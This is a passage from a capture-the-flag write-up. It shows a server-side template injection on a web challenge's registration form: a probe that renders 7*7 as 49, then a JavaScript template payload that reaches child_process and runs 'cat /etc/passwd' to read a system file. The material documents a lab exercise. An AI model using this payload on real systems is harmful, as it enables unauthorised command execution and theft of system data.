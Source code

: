 - So I have gone to perform a PoC to SSTI vulnerability and register with a new account as `test{{:7*7}}`

![paddle_SSTIpoc.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/paddle_SSTIpoc.png)

- And it succeeded to show `Test49` in the table of active users.

![paddle_poc49.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/paddle_poc49.png)

- Reenter this payload in the username field to register and execute commands on the target host.
```
PoC{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```
